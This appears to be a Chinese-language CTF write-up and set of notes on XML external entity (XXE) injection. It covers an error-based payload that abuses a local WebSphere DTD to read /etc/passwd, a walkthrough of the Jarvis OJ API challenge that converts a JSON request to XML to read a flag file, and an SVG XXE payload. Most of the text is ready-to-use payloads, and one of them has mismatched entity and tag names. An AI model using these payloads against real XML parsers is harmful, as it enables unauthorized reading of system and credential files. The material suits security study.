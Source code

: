 

---

如何使用内部DTD

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file &#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```







# (Jarvis OJ）api调用

 <a href=' <http://web.jarvisoj.com:9882/>' target="_blank">题目链接</a>

go,抓包


可以发现这里应用的content-Type是json

>JSON(JavaScript Object Notation, JS 对象简谱) 是一种轻量级的数据交换格式。其诞生原因是因为XML整合到HTML中各个浏览器实现的细节不尽相同
>
> JSON有2种结构形式，键值对形式和数组形式（如箭头二所示）

又因为题目hint:请设法获得目标机器/home/ctf/flag.txt中的flag值

判断为XXE漏洞

将json修改为xml,并构造外部引用

![](https://images.cnblogs.com/cnblogs_com/NPFS/1757701/o_200505085208$U4YCM74%7D$1GDZW6%601E3YE2.png)

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE note [
  <!ENTITY NPFS SYSTEM "file:///home/etc/flag.txt">
  ]>  
<somrthing>&npfs;</something>
```


```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
<!ENTITY file SYSTEM "file:///etc/passwd" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```
